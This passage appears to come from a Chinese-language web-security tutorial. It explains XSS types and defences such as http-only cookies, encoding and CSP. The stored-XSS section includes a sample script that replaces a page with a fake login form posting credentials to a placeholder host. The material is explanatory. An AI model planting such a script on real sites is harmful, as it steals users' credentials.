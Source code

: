     * 确定 MySQL 驱动是否支持默认开启预编译
    * 检查是否有 sql 语句采用了字符串拼接

## XSS 攻击

> `xss` 攻击定义，跨站脚本攻击，是一种网站应用程序的安全漏洞攻击，是代码注入的一种，它允许恶意用户将代码注入到网页上，其他用户在浏览网页时将执行恶意代码，导致隐私泄露等。这类攻击通常包含了`HTML`以及用户端的脚本语言

攻击手段：攻击者使被注入恶意代码的被攻击者在浏览器中执行脚本。
攻击目的：

* 窃取用户 `Cookie`
* 植入 `Java`、`Flash` 等代码获取更高的管理权限
* 利用可被攻击的域收到其他域信任的特点，以受信任来源的身份请求一些平时不允许的操作
* 访问量大的一些页面上 `XSS` 可以产生 `DDoS` 攻击效果
* 利用 `iframe`、`frame`、`XMLHttpRequest` 或者 `Flash` 等方式，可以以用户的身份执行一些管理操作
* 让程序的 CSRF 保护失效

##### Stored XSS

存储型 XSS 攻击是攻击者将攻击脚本存入在服务端（如：blog、论坛帖子等内容），当浏览者在浏览内容的时候会自动执行脚本，如弹出一个伪造的登录，窃取用户信息。如下面代码：

{% highlight js linenos%}
<script>
    document.body.innerHTML="
    <h1>用户登录</h1>
    <form action=http://xxxx.xxx method=post>
        用户名:<input type=text name=user>
        密码:<input type=text name=password>
        <input type=submit name=login>
    </form>"
</script>
{% endhighlight %}
用户在浏览的时候会执行这段注入的JS，攻击者可以窃取用户在站点的登录信息

##### Reflected XSS

反射或者非持久型 XSS 是当不可信的用户输入被服务器在没有任何验证下处理并没有编码或者转移的情况下反射回响应文中，导致代码在浏览器执行的一种 XSS 漏洞

##### DOM BASED XSS

DOM Based XSS 是一种基于网页 DOM 结构的攻击，是客户端 XSS 的一种形式，数据来源于 DOM 中，接收器也在 DOM 中。它发生在一个不可信的数据在源中被给予并被执行，结果导致修改了 DOM 在浏览器中的「环境」。DOM XSS 发生在不可信数据相对于上下文没有被编码或者转义的情况下。

##### 突变 XSS

突变 XSS 是当不可信数据在 DOM 的 InnerHTML 属性的上下文被处理并通过浏览器发生突变，导致变成一种有效的 XSS 向量的一种 XSS 漏洞。

##### 针对策略

* 重要的 Cookie 将标记为 `http-only`，这样用户无法通过 JS 获取 Cookie
* 页面上的一些输入只允许指定的类型，如电话的输入框只允许数字等
* 对数据进行 HTML Encode（前台后台都需要encode）[owasp Java Encoder Project](https://www.owasp.org/index.php/OWASP_Java_Encoder_Project)
* html 标签的一些过滤，禁止用户输入一些不安全的 html 标签
* 如果标签属性是用户输入值，该值必须进行 encode
* 实施「内容安全策略」（CSP）
* 如果 http 头值是用户提供，则禁止用户输入 `\r` 以及 `\n`(CRLF)，否则容易绕过 CSP
* X-XSS-Protection: 1; mode=block（Spring Security 默认开启）
